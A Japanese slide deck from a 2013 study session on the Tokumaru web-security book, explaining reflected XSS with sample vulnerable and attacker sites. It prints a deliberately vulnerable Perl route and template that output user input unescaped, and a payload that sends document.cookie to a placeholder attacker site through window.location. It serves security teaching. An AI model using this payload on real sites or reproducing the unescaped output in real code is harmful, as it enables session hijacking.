 # XSS

2013/11/17 @ 徳丸本勉強会

---

## XSS最初の体験

[ex00](https://github.com/laysakura/20131117-tokumaru-benkyokai/tree/gh-pages/sample-sites/attacker-sites/ex00_WhatIsXSS) のREADMEに従ってやります．

---

## [ex00](https://github.com/laysakura/20131117-tokumaru-benkyokai/tree/gh-pages/sample-sites/attacker-sites/ex00_WhatIsXSS) のXSS攻撃のまとめ

1. 攻撃者が
   <strong>脆弱サイト.com/status?uid=&lt;script&gt;*Javascript*&lt;/script&gt;</strong>
   というリンクを作る
1. 攻撃者がそのリンクをどこか(SNSとか)に貼る
1. 被害者がリンクを踏むと，脆弱サイトのCookie情報を(`GET`プロトコルで)持ちつつ攻撃者サイトにリダイレクトされる
1. 攻撃者サイトは被害者のCookie情報から脆弱サイトへのログインに必要な情報を得て，脆弱サイトに被害者として不正ログイン

---

## XSS攻撃が成立した理由(1)

- `脆弱サイト.com/status` において，ユーザの入力値がエスケープなしに使用されていた

[Dispatcher.pm](https://github.com/laysakura/20131117-tokumaru-benkyokai/blob/gh-pages/sample-sites/vulnerable-sites/ex00_WhatIsXSS/lib/ex00_WhatIsXSS/Web/Dispatcher.pm)から抜粋
```perl
get '/status' => sub {
    my $c = shift;
    my $uid  = $c->req->param('uid');  # /status?uid=[ユーザ入力値]
    return $c->render('status.tx', {
        uid => $uid,
    });
};
```

[status.tx](https://github.com/laysakura/20131117-tokumaru-benkyokai/blob/gh-pages/sample-sites/vulnerable-sites/ex00_WhatIsXSS/tmpl/status.tx)から抜粋
```html
<dl>
  <dt>ID</dt>
  <dd><: $uid | mark_raw :></dd>  <!-- ここで <> をエスケープしないといけない -->

  <dt>フォロワー数</dt>
  <dd>42</dd>
</dl>
```

---

## XSS攻撃が成立した理由(2)

`<: $uid | mark_raw :>`の部分には`<script>`タグを入れることが可能なので，その中で**任意のJSコード**が実行されてしまう．

---

## XSS攻撃が成立した理由(3)

今回の「任意のJSコード」は，以下のようなものだった．

1. 脆弱サイトのクッキーを取得する: `document.cookie`
1. それを攻撃者サイトに転送する: `window.location="http://攻撃者サイト.com/?cookie="+document.cookie`

---

# おわかりいただけただろうか?

---

## 今日やること

1. XSS最初の体験&解説 ([ex00](https://github.com/laysakura/20131117-tokumaru-benkyokai/tree/gh-pages/sample-sites/attacker-sites/ex00_WhatIsXSS): 済み)
1. XSSの肝 ([ex01](https://github.com/laysakura/20131117-tokumaru-benkyokai/tree/gh-pages/sample-sites/attacker-sites/ex01_iframe), [ex02](https://github.com/laysakura/20131117-tokumaru-benkyokai/tree/gh-pages/sample-sites/vulnerable-sites/ex02_PostOmanchin))
1. クイズで覚える! パターン別XSS脆弱性対策
1. おまけ: JSを使わないXSS ([ex03](https://github.com/laysakura/20131117-tokumaru-benkyokai/tree/gh-pages/sample-sites/attacker-sites/ex03_FormOverride))

---

## 詳細今日やること

1. XSS体験&解説 - ex00
1. XSSの肝
  - 攻撃者が任意のJSコードを注入 (反射型，持続型)
  - 被害者が攻撃者の注入したJSコードを実行
  - 何か嫌なことが起こる
    - 情報盗まれる系 -> 攻撃者サイトに誘導する必要性
      - 元サイトドメインのリンクを踏ませる => window.locationによるリダイレクト (ex00)
      - 元々攻撃者サイトに誘導しておいて，iframeで脆弱サイトを埋め込んでおく => window.locationによるリダイレクト (ex01)
    - わけわからんこと発信しちゃう系
      - ぼくはまちちゃん
      - ex02 (独自の何か投稿サイトの中で，独自サイトへの罠リンク踏ませると変なポスト, 脆弱サイト内で完結するという意味でXSSって名称はどうなんでしょうね)
1. クイズで覚える! パターン別XSS脆弱性対策
1. おまけ: JSを使わないXSS (ex03)
